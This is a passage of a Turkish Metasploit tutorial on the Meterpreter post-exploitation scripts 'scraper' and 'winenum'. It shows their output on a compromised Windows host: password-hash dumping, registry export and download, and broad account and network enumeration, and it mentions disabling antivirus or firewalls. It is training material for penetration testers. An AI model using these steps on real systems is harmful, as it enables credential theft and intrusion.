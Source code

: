 

## scraper



`scraper` scripti, `remotewinenum` ile elde edilen bilgiden daha fazlasını elde etmeye yarar. Elde edilen bilgilerin içinde registry kayıtları da bulunur.


```bash
meterpreter > run scraper > New session on 10.211.55.128:4444...
 > Gathering basic system information...
 > Dumping password hashes...
 > Obtaining the entire registry...
 > Exporting HKCU
 > Downloading HKCU **(**C:\WINDOWS\TEMP\LQTEhIqo.reg**)**
 > Cleaning HKCU
 > Exporting HKLM
 > Downloading HKLM **(**C:\WINDOWS\TEMP\GHMUdVWt.reg**)**
```



Yukarıdaki örneklerde görüldüğü gibi, Meterpreter script kodlarıyla oldukça detaylı bilgi toplanabilmektedir. Bunun yanında Antivirüs veya Firewall iptal etmede de kullanılmaktadır.



## winenum



`winenum` scripti, sistem hakkında en detaylı bilgiyi elde etmede kullanılabilir. Token, hash bilgileri ve diğer tüm bilgileri `winenum` scripti ile görebilirsiniz.


```bash
meterpreter > run winenum  > Running Windows Local Enumerion Meterpreter Script
 > New session on 10.211.55.128:4444...
 > Saving report to /root/.msf4/logs/winenum/10.211.55.128_20090711.0514-99271/10.211.55.128_20090711.0514-99271.txt
 > Checking **if **SSHACKTHISBOX-0 is a Virtual Machine ........
 >     This is a VMware Workstation/Fusion Virtual Machine 
 > Running Command List ...
 >     running command cmd.exe /c set
 >     running command arp -a
 >     running command ipconfig /all
 >     running command ipconfig /displaydns
 >     running command route print
 >     running command net view
 >     running command netstat -nao
 >     running command netstat -vb
 >     running command netstat -ns
 >     running command net accounts
 >     running command net accounts /domain
 >     running command net session
 >     running command net share
 >     running command net group
 >     running command net user
 >     running command net localgroup
 >     running command net localgroup administrators
 >     running command net group administrators
 >     running command net view /domain
 >     running command netsh firewall show config
 >     running command tasklist /svc
 >     running command tasklist /m
 >     running command gpresult /SCOPE COMPUTER /Z
 >     running command gpresult /SCOPE USER /Z
 > Running WMIC Commands ....
```